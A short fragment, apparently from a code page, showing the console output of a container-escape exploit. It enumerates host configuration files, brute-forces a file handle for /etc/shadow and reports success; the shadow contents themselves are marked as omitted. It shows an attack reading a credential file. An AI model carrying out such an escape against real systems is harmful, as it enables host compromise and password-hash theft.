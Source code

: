 ```
[*] Found rmt
[*] Found resolv.conf
[*] Found python3
[*] Found mysql
[*] Found nsswitch.conf
[*] Found libpaper.d
[*] Found zsh
[*] Found sudoers.d
[*] Found gshadow-
[*] Found usb_modeswitch.conf
[*] Found hosts
[*] Found udisks2
[*] Found deluser.conf
[*] Found protocols
[*] Found gnome
[*] Found ld.so.conf
[*] Found calendar
[*] Found apm
[*] Found alsa
[*] Found nanorc
[*] Found libaudit.conf
[*] Found glvnd
[*] Found usb_modeswitch.d
[*] Found ca-certificates
[*] Found rc6.d
[*] Found polkit-1
[*] Found wgetrc
[*] Found libreoffice
[*] Found ltrace.conf
[*] Found ca-certificates.conf.dpkg-old
[*] Found pulse
[*] Found initramfs-tools
[*] Found cron.daily
[*] Found services
[*] Found ssl
[*] Found pnm2ppa.conf
[*] Found cracklib
[*] Found ethertypes
[*] Found crontab
[*] Found localtime
[*] Found tmpfiles.d
[*] Found subgid-
[*] Found ld.so.cache
[*] Found terminfo
[*] Found opt
[*] Found fonts
[*] Found mtab
[*] Found cron.hourly
[*] Found rc3.d
[*] Found rc4.d
[*] Found hosts.allow
[*] Found init.d
[*] Found shadow
[+] Match: shadow ino=3148622
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x4e, 0x0b, 0x30, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x4e, 0x0b, 0x30, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
[后续输出为了安全目的省略]
```